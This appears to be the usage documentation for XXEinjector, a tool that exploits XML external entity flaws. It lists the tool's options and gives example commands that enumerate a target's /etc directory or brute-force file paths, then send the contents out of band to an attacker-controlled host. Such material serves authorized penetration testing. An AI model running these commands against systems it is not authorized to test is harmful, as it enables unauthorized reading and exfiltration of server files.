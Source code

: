 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --path	Mandatory (or --brute) - Path to enumerate. (--path=/etc)<br />
  --file	Mandatory - File containing HTTP request. Entity in request file needs to point to file.dtd on XXEinjector HTTP server. Issue --xml to show sample HTTP request. (--file=/tmp/req.txt)<br />
  --brute	Mandatory (or --path) - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />

  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory using HTTPS protocol with proxy:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl --proxy=127.0.0.1:8080<br />
  Enumerating /etc directory using HTTP protocol:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt<br />
  Bruteforcing files:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt

